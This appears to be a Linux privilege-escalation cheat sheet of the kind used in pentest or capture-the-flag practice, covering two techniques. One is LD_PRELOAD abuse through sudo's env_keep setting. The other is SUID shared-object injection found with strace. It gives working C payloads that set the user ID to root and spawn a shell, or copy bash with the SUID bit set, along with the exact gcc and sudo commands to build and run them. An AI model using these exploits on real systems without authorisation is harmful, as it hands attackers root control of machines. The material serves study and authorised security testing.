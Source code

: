 ### LD_Preload : 
If the target is vulnerable to LD_Preload, it means that when typing `sudo -l` the machine responds with `env_keep+=LD_PRELOAD` in the stuff
```bash
sudo -l
...
    env_keep+=LD_PRELOAD
```

1. Open a text editor and type:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
2. Save the file as `x.c`
3. In command prompt type:
```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```

### SUID/SGID share object injection
We look are missing SUID's to recreate them

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

From the output, notice that a .so file is missing from a writable directory.
***.so is compiled .c***
##### Output example : 
```
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

So, let's fake the binary
```bash
nano /home/user/.config/libcalc.c  
```

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
